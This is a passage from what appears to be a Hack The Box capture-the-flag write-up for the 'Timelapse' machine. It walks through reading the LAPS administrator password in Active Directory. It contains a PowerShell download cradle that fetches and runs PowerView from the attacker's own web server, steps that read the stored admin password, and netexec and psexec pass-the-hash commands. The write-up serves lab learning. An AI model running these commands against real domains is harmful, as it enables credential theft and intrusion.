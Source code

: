 -   **I stand up my python server**:
    -   `python3 -m http.server 9000`



-   **On the target from an evil-winrm admin shell I use a download cradle to load the sript into memory**:
    -   `iex(new-object net.webclient).downloadstring('http://10.10.14.97:9000/PowerView.ps1')`
    -   {{< figure src="/ox-hugo/2024-11-10-203907_.png" >}}
    -   {{< figure src="/ox-hugo/2024-11-10-203934_.png" >}}



-   **Let's create a secure string, using svc_deploy's creds**:
    ```powershell
    $SecPassword = ConvertTo-SecureString '[svc_password]' -AsPlainText -Force
    ```

    -   {{< figure src="/ox-hugo/2024-11-10-204304_.png" >}}

-   **Create Credential Object for Authentication**:
    ```powershell
    $Cred = New-Object System.Management.Automation.PSCredential('timelapse.htb\svc_deploy', $SecPassword)
    ```

    -   {{< figure src="/ox-hugo/2024-11-10-204346_.png" >}}



-   **Retrieve LAPS Password Using the Service Account**:
    ```powershell
    Get-DomainObject DC01 -Credential $Cred -Properties "ms-mcs-AdmPwd",name
    ```

    -   {{< figure src="/ox-hugo/2024-11-10-204410_.png" >}}
    -   +Note+: The LAPS password is stored in the "`ms-mcs-AdmPwd`" attribute.

-   **Now that we have the** `LAPS` **password we can authenticate as the administrator**:
    -   `netexec smb $box -u $user -p $pass --shares`
    -   {{< figure src="/ox-hugo/2024-11-10-205437_.png" >}}



-   **Grabbing our flag**:
    -   `impacket-psexec $domain/$user@$box -hashes :$hash`
    -   There was no flag on the Administrators desktop.
        -   {{< figure src="/ox-hugo/2024-11-11-054537_.png" >}}
    -   Looking through the box though there are other users; as we have enumerated all other users desktop let's check out TRX.
        -   {{< figure src="/ox-hugo/2024-11-11-054635_.png" >}}
    -   Flag found:
        -   {{< figure src="/ox-hugo/2024-11-11-054723_.png" >}}
    -   +Note+:
        -   I had to use psexec as winrm stopped working (and continued to not work even after box resets)
        -   I had to actually perform this after the DC-Sync to retrieve the administrator hash as I could not use evil-winrm and the LAPS password to connect. I have since checked some known walktrhoughs and you should be able to authenticate so maybe I just got unlucky. So if you encounter the same issue, jump to my persistence section to view how to DC-Sync and then use the above approach.
